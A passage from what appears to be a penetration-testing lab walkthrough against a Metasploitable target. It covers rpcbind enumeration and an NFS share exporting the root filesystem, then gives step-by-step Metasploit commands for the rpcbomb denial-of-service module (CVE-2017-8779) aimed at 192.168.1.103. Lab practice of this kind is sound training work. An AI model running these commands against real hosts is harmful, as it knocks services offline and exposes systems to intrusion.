 we can also used the rpcinfo module of the metasploitable framework to enumerate this service.
##### Exploiting rpc.mountd service
From the enumeration we got the nfs service is running on port 2049 which provide the root '/' filesystem share can be mounted, and we can mount in the later section on port 2049 exploitation.

##### Exploiting 'CVE-2017-8779' Dos attack using rpcbomb packet
Here we got a metasploitable module which can send enumerous rpc requeste to the rpcbind services which can exhaust system resources and potentially render the service unavailable.
```
msfconsole -q
msf > search rpcbomb
msf > use auxiliary/dos/rpc/rpcbomb
msf auxiliay(dos/rpc/rpcbomb) > options
msf auxiliay(dos/rpc/rpcbomb) > set RHOSTS 192.168.1.103
msf auxiliay(dos/rpc/rpcbomb) > show options
msf auxiliay(dos/rpc/rpcbomb) > run
```
**Output** ![](../images/rpcbind_Dos_attack_using_rpcbomb.png)